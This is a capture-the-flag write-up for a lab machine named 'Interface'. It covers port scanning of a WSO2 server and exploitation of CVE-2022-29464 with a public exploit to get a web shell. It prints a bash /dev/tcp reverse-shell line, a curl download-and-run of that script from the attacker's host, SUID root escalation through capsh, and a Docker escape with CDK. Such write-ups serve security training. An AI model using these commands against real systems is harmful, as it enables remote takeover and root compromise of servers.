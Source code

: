 ```yaml
---
title: 'Interface Writeup'
date: '2024-10-16'
tags: ['CVE-2022-29464', 'Linux', 'Hacking Club']
draft: false
summary: 'The application has vulnerabilities such as CVE-2022-29464, unrestricted file upload and remote code execution, privilege escalation via SUID binary, and Docker escape.'
images: ['/static/images/interface-writeup-images/1.png']
authors: ['default']
---
```


![Interface 1](/static/images/interface-writeup-images/1.png)

---

## Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```
PORT     STATE SERVICE             VERSION
22/tcp   open  ssh                 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 87:f4:7d:72:e8:81:37:7b:99:bc:28:84:78:ac:18:2e (RSA)
|   256 12:a0:b3:69:ab:93:69:a2:00:b6:25:06:71:0c:61:fb (ECDSA)
|_  256 b6:17:25:3a:50:58:4f:61:f3:09:f2:d3:01:76:ed:1d (ED25519)
9443/tcp open  ssl/tungsten-https?
| ssl-cert: Subject: commonName=localhost/organizationName=WSO2/stateOrProvinceName=CA/countryName=US
| Subject Alternative Name: DNS:localhost
| Issuer: commonName=localhost/organizationName=WSO2/stateOrProvinceName=CA/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-10-23T07:30:43
| Not valid after:  2022-01-25T07:30:43
| MD5:   722a:bf36:2d0d:e587:6d53:e96c:92a1:a550
|_SHA-1: 57ff:38d9:7664:c792:ff88:0117:1f04:191d:ed88:778d
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings:
|   DNSStatusRequestTCP, Help:
|     HTTP/1.1 400
|     Content-Length: 0
|     Date: Wed, 16 Oct 2024 16:28:44 GMT
|     Connection: close
|     Server: WSO2 Carbon Server
|   DNSVersionBindReqTCP, RPCCheck:
|     HTTP/1.1 400
|     Content-Length: 0
|     Date: Wed, 16 Oct 2024 16:28:43 GMT
|     Connection: close
|     Server: WSO2 Carbon Server
|   GetRequest:
|     HTTP/1.1 302
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Set-Cookie: JSESSIONID=51AE67BBD410A643B96217D15C6B012B; Path=/; Secure; HttpOnly
|     Location: https://api-manager.hackingclub.local:9443/publisher/
|     Content-Length: 0
|     Date: Wed, 16 Oct 2024 16:28:36 GMT
|     Connection: close
|     Server: WSO2 Carbon Server
|   HTTPOptions:
|     HTTP/1.1 302
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     Set-Cookie: JSESSIONID=F8512F908C5A640B577030029959400A; Path=/; Secure; HttpOnly
|     Location: https://api-manager.hackingclub.local:9443/publisher/
|     Content-Length: 0
|     Date: Wed, 16 Oct 2024 16:28:42 GMT
|     Connection: close
|     Server: WSO2 Carbon Server
|   RTSPRequest:
|     HTTP/1.1 400
|     Content-Length: 0
|     Date: Wed, 16 Oct 2024 16:28:42 GMT
|     Connection: close
|     Server: WSO2 Carbon Server
|   SSLSessionReq:
|     HTTP/1.1 400
|     Content-Length: 0
|     Date: Wed, 16 Oct 2024 16:28:46 GMT
|     Connection: close
|_    Server: WSO2 Carbon Server
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9443-TCP:V=7.94SVN%T=SSL%I=7%D=10/16%Time=670FE9B4%P=x86_64-pc-linu
SF:x-gnu%r(GetRequest,14E,"HTTP/1\.1\x20302\x20\r\nX-Content-Type-Options:
SF:\x20nosniff\r\nX-XSS-Protection:\x201;\x20mode=block\r\nSet-Cookie:\x20
SF:JSESSIONID=51AE67BBD410A643B96217D15C6B012B;\x20Path=/;\x20Secure;\x20H
SF:ttpOnly\r\nLocation:\x20https://api-manager\.hackingclub\.local:9443/pu
SF:blisher/\r\nContent-Length:\x200\r\nDate:\x20Wed,\x2016\x20Oct\x202024\
SF:x2016:28:36\x20GMT\r\nConnection:\x20close\r\nServer:\x20WSO2\x20Carbon
SF:\x20Server\r\n\r\n")%r(HTTPOptions,14E,"HTTP/1\.1\x20302\x20\r\nX-Conte
SF:nt-Type-Options:\x20nosniff\r\nX-XSS-Protection:\x201;\x20mode=block\r\
SF:nSet-Cookie:\x20JSESSIONID=F8512F908C5A640B577030029959400A;\x20Path=/;
SF:\x20Secure;\x20HttpOnly\r\nLocation:\x20https://api-manager\.hackingclu
SF:b\.local:9443/publisher/\r\nContent-Length:\x200\r\nDate:\x20Wed,\x2016
SF:\x20Oct\x202024\x2016:28:42\x20GMT\r\nConnection:\x20close\r\nServer:\x
SF:20WSO2\x20Carbon\x20Server\r\n\r\n")%r(RTSPRequest,78,"HTTP/1\.1\x20400
SF:\x20\r\nContent-Length:\x200\r\nDate:\x20Wed,\x2016\x20Oct\x202024\x201
SF:6:28:42\x20GMT\r\nConnection:\x20close\r\nServer:\x20WSO2\x20Carbon\x20
SF:Server\r\n\r\n")%r(RPCCheck,78,"HTTP/1\.1\x20400\x20\r\nContent-Length:
SF:\x200\r\nDate:\x20Wed,\x2016\x20Oct\x202024\x2016:28:43\x20GMT\r\nConne
SF:ction:\x20close\r\nServer:\x20WSO2\x20Carbon\x20Server\r\n\r\n")%r(DNSV
SF:ersionBindReqTCP,78,"HTTP/1\.1\x20400\x20\r\nContent-Length:\x200\r\nDa
SF:te:\x20Wed,\x2016\x20Oct\x202024\x2016:28:43\x20GMT\r\nConnection:\x20c
SF:lose\r\nServer:\x20WSO2\x20Carbon\x20Server\r\n\r\n")%r(DNSStatusReques
SF:tTCP,78,"HTTP/1\.1\x20400\x20\r\nContent-Length:\x200\r\nDate:\x20Wed,\
SF:x2016\x20Oct\x202024\x2016:28:44\x20GMT\r\nConnection:\x20close\r\nServ
SF:er:\x20WSO2\x20Carbon\x20Server\r\n\r\n")%r(Help,78,"HTTP/1\.1\x20400\x
SF:20\r\nContent-Length:\x200\r\nDate:\x20Wed,\x2016\x20Oct\x202024\x2016:
SF:28:44\x20GMT\r\nConnection:\x20close\r\nServer:\x20WSO2\x20Carbon\x20Se
SF:rver\r\n\r\n")%r(SSLSessionReq,78,"HTTP/1\.1\x20400\x20\r\nContent-Leng
SF:th:\x200\r\nDate:\x20Wed,\x2016\x20Oct\x202024\x2016:28:46\x20GMT\r\nCo
SF:nnection:\x20close\r\nServer:\x20WSO2\x20Carbon\x20Server\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Only ports 22 (SSH) and 9443 (HTTPS) were discovered open.

## Enumeration

### https://172.16.2.58:9443

The server redirects us to `https://api-manager.hackingclub.local:9443/publisher/`

![interface 2](/static/images/interface-writeup-images/2.png)

We need to add the name that the server is looking for in the local DNS, which in this case is `api-manager.hackingclub.local`

`sudo vim /etc/host`

![interface 3](/static/images/interface-writeup-images/3.png)

In the NMAP scan, we were able to identify the type of server running (WSO2).

To found the server version, we can go to the endpoint `/services/Version`

![interface 3](/static/images/interface-writeup-images/4.png)

With the version in hand, it was possible to identify some related CVEs.

![interface 5](/static/images/interface-writeup-images/5.png)

After running the exploit, it was possible to get a web shell.

```
git clone https://github.com/oppsec/wsob.git
pip3 install -r requirements.txt
python3 main.py -u https://api-manager.hackingclub.local:9443
```

![interface 6](/static/images/interface-writeup-images/6.png)
![interface 7](/static/images/interface-writeup-images/7.png)

With this, we can get a reverse shell.

The attempt to obtain the shell traditionally did not work, as the server did not execute commands directly. The alternative was to send a script via curl and save it in the /tmp folder.

`shell.sh`

```python
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'
```

`WebShell`

```python
curl http://10.0.31.150:8000/shell.sh -o /tmp/revshell.sh

chmod +x /tmp/revshell.sh

bash /tmp/revshell.sh
```

![interface 8](/static/images/interface-writeup-images/8.png)
![interface 9](/static/images/interface-writeup-images/9.png)

---

## Privillege Escalation

I used Linpeas to enumerate possible privilege escalation vectors and identified an SUID that can be exploited to gain root access.

![interface 10](/static/images/interface-writeup-images/10.png)

I was able to find this SUID in GTFOBins.

![interface 11](/static/images/interface-writeup-images/11.png)

Just run the following command to gain root access:

`/usr/sbin/capsh --gid=0 --uid=0 --`

![interface 12](/static/images/interface-writeup-images/12.png)

---

## Privillege Escalation 2 - Docker Breakout

We used a tool called “DEEPCE” ([https://github.com/stealthcopter/deepce](https://github.com/stealthcopter/deepce)) to assist in escaping the Docker. This tool is similar to Linpeas but focused on Docker and container enumeration.

After downloading the script and transferring it to the target machine, it discovered some Capabilities that we can use to 'escape' Docker. In this case, we’ll use it to read the final flag of the CTF.

![interface 13](/static/images/interface-writeup-images/13.png)

We can use the `CAP_DAC_READ_SEARCH` capability to read any file on the server.

Vamos utilizar a ferramenta “CDK ([https://github.com/cdk-team/CDK](https://github.com/cdk-team/CDK))” para nos ajudar a explorar essa capability. CDK se trata de uma ferramenta open-source desenvolvida especificamente para pentest em containers.

After transferring the file to the target machine, we can execute it with the following command:

```
chmod +x cdk_linux_amd64
./cdk_linux_amd64 run cap-dac-read-search /root/root.txt
```

![interface 14](/static/images/interface-writeup-images/14.png)

---

## Proof

![interface 15](/static/images/interface-writeup-images/15.png)
